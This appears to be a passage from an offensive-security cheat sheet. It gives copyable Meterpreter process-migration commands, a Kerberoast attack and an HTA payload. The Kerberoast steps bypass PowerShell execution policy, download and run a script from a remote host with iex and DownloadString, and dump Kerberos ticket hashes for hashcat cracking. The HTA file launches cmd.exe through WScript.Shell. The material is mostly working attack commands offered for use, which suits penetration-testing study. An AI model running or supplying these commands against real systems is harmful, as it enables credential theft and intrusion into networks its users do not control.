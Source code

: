 
### Get current process ID
```bash copy
getpid
```
- Shows the current process ID in Meterpreter.


### List processes
```bash copy
ps
```
- Lists running processes in Meterpreter.


### Migrate to another process
```bash copy
migrate 676
```
- Migrates Meterpreter to another process (PID 676).


## Kerberoast Attack

### Bypass PowerShell execution policy
```powershell copy
powershell -ep bypass
```
- Bypasses PowerShell execution policy for script execution.
- `-ep bypass`: Bypasses execution policy.

### Download Kerberoast script
```powershell copy
iex(New-Object Net.WebClient).DownloadString('http://10.10.10.10:80/Invoke-Kerberoast.ps1')
```
- Downloads and executes the Invoke-Kerberoast.ps1 script.
- `iex`: Executes the downloaded script.

### Run Kerberoast
```powershell copy
Invoke-Kerberoast -OutputFormat hashcat | fl
```
- Extracts Kerberos ticket hashes in hashcat format and formats output as a list.
- `-OutputFormat hashcat`: Outputs hashes in hashcat-compatible format.
- `| fl`: Formats output as a list.

## HTA Payload

### HTA payload
```html copy
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
- Executes `cmd.exe` via an HTA file.

